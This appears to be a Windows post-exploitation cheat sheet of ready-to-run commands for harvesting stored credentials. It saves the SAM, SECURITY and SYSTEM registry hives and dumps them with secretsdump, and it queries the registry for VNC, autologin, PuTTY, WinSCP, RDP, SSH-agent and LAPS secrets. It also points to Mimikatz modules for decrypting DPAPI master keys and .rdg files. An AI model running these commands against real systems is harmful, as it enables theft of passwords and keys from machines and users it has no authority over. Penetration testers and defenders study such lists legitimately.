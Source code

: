 ### SAM / LSA secrets (SeBackup)
```
reg.exe save hklm\sam c:\temp\sam.save
reg.exe save hklm\security c:\temp\security.save
reg.exe save hklm\system c:\temp\system.save

esentutl.exe /y /vss C:\Windows\System32\config\SAM /d c:\temp\sam
```
#### Kali VM
```
secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```
### VNC  
```
reg query "HKCU\\Software\\ORL\\WinVNC3\\Password"
reg query HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4 /v password
reg query "HKCU\\Software\\TightVNC\\Server"  
```
### Windows autologin  
```
reg query "HKLM\\SOFTWARE\\Microsoft\\Windows NT\\Currentversion\\Winlogon"  
reg query "HKLM\\SOFTWARE\\Microsoft\\Windows NT\\Currentversion\\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword"  
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr /i "DefaultDomainName DefaultUserName DefaultPassword AltDefaultDomainName AltDefaultUserName AltDefaultPassword LastUsedUsername"
```
### SNMP Paramters  
```
reg query "HKLM\\SYSTEM\\Current\\ControlSet\\Services\\SNMP"  
```
### Putty  
```
reg query "HKCU\\Software\\SimonTatham\\PuTTY\\Sessions"  
```
SSH Keys:
```
reg query HKEY_CURRENT_USER\Software\OpenSSH\Agent\Keys
```
If you find any entry inside that path it will probably be a saved SSH key. It is stored encrypted but can be easily decrypted using [https://github.com/ropnop/windows\_sshagent\_extract](https://github.com/ropnop/windows_sshagent_extract). More information about this technique here: https://blog.ropnop.com/extracting-ssh-private-keys-from-windows-10-ssh-agent/ 
### LDAP
```
reg query "HKLM\\Software\\Policies\\Microsoft Services\\AdmPwd"
```
### WinSCP
```
reg query "HKCU\SOFTWARE\Martin Prikryl\WinSCP 2\Sessions""
```
### RDP
```
reg query "HKEY_USERS\<SID>\Software\Microsoft\Terminal Server Client\Servers\"
reg query "HKCU\Software\Microsoft\Terminal Server Client\Servers\"
```
RDP credential manager:
```
%localappdata%\Microsoft\Remote Desktop Connection Manager\RDCMan.settings
```
Use the **Mimikatz**   `dpapi::rdg` module with appropriate `/masterkey` to **decrypt any .rdg files** You can **extract many DPAPI masterkeys** from memory with the Mimikatz `sekurlsa::dpapi` module